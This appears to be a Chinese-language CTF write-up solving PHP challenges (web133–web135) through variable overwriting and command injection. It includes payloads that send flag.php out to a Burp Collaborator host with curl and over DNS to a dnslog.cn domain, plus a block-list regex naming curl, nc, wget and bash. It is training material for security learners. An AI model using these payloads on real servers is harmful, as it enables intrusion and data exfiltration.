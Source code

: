 ```php
}
```
限制了前六个字母，于是考虑变量覆盖，例如?F=`$F`;+xxx，就会执行xxx的内容，然后利用curl将flag带出即可
payload：
?F=`$F`;+curl -X POST -F xx=@flag.php http://alznj4ubyx9onw4yhplwurkgq7wxkm.burpcollaborator.net
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638251223524-954d0748-6f59-4a6b-bf0d-e1d33c301551.png)
成功带出flag，参考链接：[https://blog.csdn.net/qq_46091464/article/details/109095382](https://blog.csdn.net/qq_46091464/article/details/109095382)

## web134（变量覆盖）
```php
<?php

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```
payload: ?_POST[key1]=36d&_POST[key2]=36d
利用点是 extract($_POST);，进行解析$_POST数组。 
第九行先将GET方法请求的解析成变量
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638252782990-9fd15d97-585a-48bf-a92e-bb6d69188f0a.png)
然后在利用extract() 函数从数组中将变量导入到当前的符号表。 即$key1=36d，$key2=36d
查看源码后得到flag
## web135（变量覆盖）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```
133的升级版，这题也非预期了，原因是没禁用写权限
payload：/?F=`$F`; cp flag.php 1.txt
直接将flag写到了1.txt中，然后访问1.txt即可
预期解：通过Ping命令带出数据
/?F=`$F`;+ping `cat flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
因为最终flag是两部分，所以通过awk NR一排一排的获得数据，但是这个方法我没有成功带出，还请成功的师傅指点一二
## web136（tee）
```php
<?php
error_reporting(0);
function check($x){
```